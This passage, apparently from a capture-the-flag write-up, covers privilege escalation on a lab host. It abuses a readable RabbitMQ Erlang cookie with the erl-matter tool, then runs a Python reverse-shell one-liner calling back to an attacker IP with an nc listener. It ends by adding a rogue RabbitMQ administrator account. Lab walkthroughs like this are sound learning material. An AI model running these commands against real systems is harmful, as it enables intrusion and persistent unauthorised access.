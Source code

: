 ## Privilege Escalation

The next thing I checked was the home directory of `rabbitmq`, the broker system, with the exposed port. 
```terminal
azrael@forge:/var/lib/rabbitmq$ ls -la
total 896
drwxr-xr-x  5 rabbitmq rabbitmq   4096 Sep 12 00:32 .
drwxr-xr-x 45 root     root       4096 Sep 20 19:11 ..
drwxr-x---  3 rabbitmq rabbitmq   4096 Aug 15  2024 config
-r-----r--  1 rabbitmq rabbitmq     16 Feb 23 11:11 .erlang.cookie
-rw-r-----  1 rabbitmq rabbitmq 889381 Feb 23 11:11 erl_crash.dump
drwxr-x---  4 rabbitmq rabbitmq   4096 Feb 23 11:11 mnesia
-rw-r-----  1 rabbitmq rabbitmq      0 Sep 12 00:33 nc
drwxr-x---  2 rabbitmq rabbitmq   4096 Jul 18  2024 schema
```

You can see that the `.erlang.cookie` is readable to us, which is a strong indicator that we have RCE as that user and can escalate our privileges.

**What is RabbitMQ:** RabbitMQ per website: "RabbitMQ is a reliable and mature messaging and streaming broker, which is easy to deploy on cloud environments, on-premises, and on your local machine."

```terminal
azrael@forge:/var/lib/rabbitmq$ cat .erlang.cookie && echo
HIDDENCOOKIE
```

I now used [`erl-matter`](https://github.com/gteissier/erl-matter) repo to get RCE.
You can use the cookie and get a shell, but only execute one command to get a decent reverse shell, because the program crashed immediately for me.
```terminal
$ python2 shell-erldp.py 10.10.227.32 25672 HIDDENCOOKIE
[*] authenticated onto victim
10.10.227.32:25672 $ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.78.229",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

You will now get a shell as RabbitMQ.
```terminal
$ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.14.78.229] from (UNKNOWN) [10.10.227.32] 52932
$ whoami
whoami
rabbitmq
```

With that you can now use the `rabbitmqctl` command to list the broker data.
I added a new user and set all privileges to do anything. Before that set the privileges for the cookie right, if you don't the command won't work.
```terminal
rabbitmq@forge:~$ chmod 600 .erlang.cookie 
rabbitmq@forge:~$ rabbitmqctl add_user imposter 123
Adding user "imposter" ...
Done. Don't forget to grant the user permissions to some virtual hosts! See 'rabbitmqctl help set_permissions' to learn more.
rabbitmq@forge:~$ rabbitmqctl set_user_tags imposter administrator
Setting tags for user "imposter" to [administrator] ...
```
